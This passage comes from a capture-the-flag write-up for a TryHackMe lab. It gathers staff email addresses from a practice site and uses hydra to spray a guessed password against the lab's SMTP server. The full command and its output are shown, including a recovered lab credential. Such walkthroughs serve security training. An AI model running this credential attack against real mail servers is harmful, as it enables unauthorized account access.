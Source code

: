 
Is there any information that we can discover here ? The majority of the tabs are useless, but there are some names and email addresses on the *Our Team* tab.

![2](/assets/img/tryhackme/ctf/yougotmail/2.png)

Maybe those could be used to connect to the mail servers on the target machine.

We could test all of them one by one but we will use **hydra** and a wordlist containing the emails to help ourselves. 

After that, I used a few common words that could be used as a **weak password** for those users and managed to find it :

```shell
$ hydra -L usermails.txt -p 'bricks' smtp://target
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-24 18:23:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking smtp://target:25/
[25][smtp] host: target   login: lhedvig@brownbrick.co   password: bricks
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-24 18:23:57
```
